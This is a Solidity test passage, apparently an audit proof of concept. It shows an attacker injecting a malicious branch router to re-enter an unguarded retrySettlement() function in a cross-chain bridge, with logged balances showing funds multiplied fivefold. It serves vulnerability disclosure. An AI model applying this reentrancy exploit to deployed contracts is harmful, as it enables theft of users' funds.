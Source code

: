 ```Solidity
        BranchBridgeAgent attackerBranchBridgeAgent = BranchBridgeAgent(payable(attackerBridgeAgent.getBranchBridgeAgent(ftmChainId)));
        hevm.prank(attacker);
        attackerBranchRouter.initialize(address(attackerBranchBridgeAgent));


        // Get some hTokens for attacker to create the first settlement
        uint128 settlementAmount = 10 ether;
        hevm.prank(address(rootPort));
        ERC20hTokenRoot(newAvaxAssetGlobalAddress).mint(attacker, settlementAmount, rootChainId);

        console2.log("STATE BEFORE:");

        // Attacker should have zero AvaxAssetLocalToken before bridging to FTM via the settlement
        console2.log("Attacker newAvaxAssetLocalToken (FTM) Balance: \t", MockERC20(newAvaxAssetLocalToken).balanceOf(attacker));
        require(MockERC20(newAvaxAssetLocalToken).balanceOf(attacker) == 0);

        // Attacker will start with 1e18 hTokens for the first settlement
        console2.log("Attacker Global Balance: \t", MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker));
        require(MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker) == settlementAmount);

        // Expect next settlementNonce to be '1' before settlement creation
        console2.log("attackerBridgeAgent.settlementNonce: %d", attackerBridgeAgent.settlementNonce());
        require(attackerBridgeAgent.settlementNonce() == 1);

        // Execution history in BranchBridgeAgent is not marked yet
        console2.log("attackerBranchBridgeAgent.executionHistory(1) = %s", attackerBranchBridgeAgent.executionHistory(1));
        console2.log("attackerBranchBridgeAgent.executionHistory(2) = %s", attackerBranchBridgeAgent.executionHistory(2));


        // Attacker transfers hTokens into router, triggers the first settlement and then the reentrancy attack
        // Issue 2 - RootBridgeAgent.retrySettlement() has no lock to prevent reentrancy 
        //           We can re-enter retrySettlement() via the injected malicious BranchRouter (above)
        //           Refer to AttackerRouter and AttackerBranchRouter contracts to see the reentrance calls
        hevm.prank(attacker);
        MockERC20(newAvaxAssetGlobalAddress).transfer(address(attackerRouter), settlementAmount);

        hevm.prank(attacker);
        attackerRouter.reentrancyAttack{value: 1e13 }(attackerBridgeAgent, attacker, attacker, address(newAvaxAssetGlobalAddress), settlementAmount,  0, ftmChainId);
  

        console2.log("STATE AFTER:");

        // Attacker will now have 5e19 AvaxAssetLocalToken after using 1e19 and some gas to perform 4x recursive reentrancy attack
        console2.log("Attacker newAvaxAssetLocalToken (FTM) Balance: ", MockERC20(newAvaxAssetLocalToken).balanceOf(attacker));
        require(MockERC20(newAvaxAssetLocalToken).balanceOf(attacker) == 5e19);

        // The hTokens have been used for the first settlement
        console2.log("Attacker Global Balance: ", MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker));
        require(MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker) == 0);

```